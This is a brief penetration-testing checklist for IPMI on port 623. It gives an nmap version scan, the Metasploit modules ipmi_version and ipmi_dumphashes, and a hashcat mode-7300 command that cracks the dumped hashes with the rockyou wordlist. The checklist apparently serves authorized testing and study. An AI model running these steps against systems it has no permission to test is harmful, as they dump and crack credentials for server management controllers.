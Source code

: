 # IPMI (623)
- [ ] IPMI Nmap
  ```bash
  sudo nmap -sU --script ipmi-version -p 623 $IP
  ```
- [ ] Metasploit
  ```bash
  use auxiliary/scanner/ipmi/ipmi_version
  use auxiliary/scanner/ipmi/ipmi_dumphashes
  ```
- [ ] Hashcat
  ```bash
  hashcat -m 7300 hash.txt /usr/share/wordlists/rockyou.txt
  ```

